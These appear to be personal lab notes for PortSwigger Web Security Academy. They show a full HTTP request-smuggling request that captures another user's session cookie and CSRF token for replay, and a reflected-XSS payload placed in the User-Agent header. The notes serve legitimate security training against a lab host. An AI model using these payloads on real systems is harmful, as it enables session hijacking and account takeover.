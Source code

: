 ```
```

**Exploiting HTTP request smuggling to capture other users' requests**

Intercept a comment submit and modify to the following
Increase second Content-Length to meet your need to show session cookie
```
POST / HTTP/1.1
Host: 0acf00500437c75381604dde003600ed.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 275
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 930
Cookie: session=ckjHb97MUxlfsPWlVtKf7m5RBEKuEort

csrf=vztP4gl8AAblrNS6an7vHFX3eZP4lori&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test
```

Send on burpe
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/428cb6ec-50ac-4c15-a606-1670ccee94ad)

Go back and you should see your session cookie in the comments
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/19334f1f-41d8-435f-a3fd-6fd0cfdc69f7)

Copy the session cookie and csrf token and intercept a login request
Modify to your copied session cookie and csrf token
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/7a8fa68d-d930-4fdd-b8e8-3617180e795e)

Forward request
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/a0542cf1-3152-4445-b225-b23588691592)

**Exploiting HTTP request smuggling to deliver reflected XSS**

On the comment blog page we notice userAgent with the value of our browser 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/2ab52e74-0e53-48d6-bc5a-20fb5a5bd4b9)




Inject an XSS payload into the User-Agent header and observe that it gets reflected: 

From <https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss> 
```
User-Agent: /><script>alert(1)</script>
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/eadf8a18-8521-4ae2-9cd0-5d9a1d242614)

